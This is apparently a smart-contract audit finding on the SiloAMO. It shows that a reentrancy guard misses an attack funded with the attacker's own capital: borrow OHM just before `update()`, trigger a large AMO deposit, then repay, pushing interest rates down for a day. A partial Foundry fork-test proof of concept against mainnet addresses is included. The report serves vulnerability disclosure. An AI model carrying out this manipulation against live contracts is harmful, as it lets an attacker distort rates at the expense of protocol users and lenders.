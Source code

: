 In order to protect against this possibility, the SiloAMO checks if the interest rate timestamp has been updated in the current block. If it has, it does not allow `update()` to be called:
```solidity
ISilo.UtilizationData memory utilizationData = ISilo(market).utilizationData(address(OHM));
if (utilizationData.interestRateTimestamp == block.timestamp)
    revert AMO_UpdateReentrancyGuard(address(this));
```
While this successfully protects against flash loans, it does not protect against a similar attack that occurs with an attacker's own funds.

Here is a simple flow of what this might look like:
- An attacker deposits a large amount of WETH or XAI into the OHM Silo (or, with slightly more effort, deposit a smaller amount of WETH or XAI, borrow OHM, trade it for WETH or XAI, and use this pattern to create a leveraged borrow position)
- The block before `update()` is allowed to be called, they take a large borrow of OHM
- This increases the interest rate, but puts `totalDeposits` far below the optimal utilization rate
- The next block, they call `update()`, which causes SiloAMO to deposit a large amount of OHM
- Immediately after this transaction, the user repays their borrowed OHM, minimizing interest costs

The result is that the interest rates will be forced down for a full day. This attack can be repeated daily in order to keep the interest rate deflated.

### Proof of Concept

I've put together the following standalone fork test to model this situation. It can be dropped into your current test suite and run with the relevant interfaces imported and RPC_URL inserted.

```solidity
contract TestInterestRateManipulation is Test {
    using FullMath for uint256;

    ISilo silo = ISilo(0xf5ffabab8f9a6F4F6dE1f0dd6e0820f68657d7Db);
    IERC20 ohm = IERC20(0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5);
    IERC20 weth = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    address shareCollToken = 0x907136B74abA7D5978341eBA903544134A66B065;
    IInterestRateModel model = IInterestRateModel(0x76074C0b66A480F7bc6AbDaA9643a7dc99e18314);
    address amo = makeAddr("policy");

    function testInterestRateManipulation() public {
        vm.createSelectFork("RPC_URL");
        deal(address(weth), address(this), 10_000e18);
        weth.approve(address(silo), 10_000e18);
        deal(shareCollToken, amo, 10_000e18);
        vm.startPrank(amo);
        IERC20(shareCollToken).approve(address(silo), 10_000e18);
        ohm.approve(address(silo), 100_000e9);
        vm.stopPrank();
        deal(address(ohm), address(this), 100_000e9);
        ohm.approve(address(silo), 100_000e9);
        deal(address(ohm), amo, 100_000e9);

        // the starting rate for the silo
        _update();
        console.log("Starting Rate: ", model.getCurrentInterestRate(address(silo), address(ohm), block.timestamp));

        // we make a large borrow, which pushes rates up but also baits the amo into depositing a large amount of OHM
        silo.deposit(address(weth), 10_000e18, false);
        (uint borrowAmt,) = silo.borrow(address(ohm), silo.liquidity(address(ohm)));
        console.log("Rate After OHM Borrow: ", model.getCurrentInterestRate(address(silo), address(ohm), block.timestamp));

        // wait one block so that update() is allowed to be called
        vm.warp(block.timestamp + 12);

```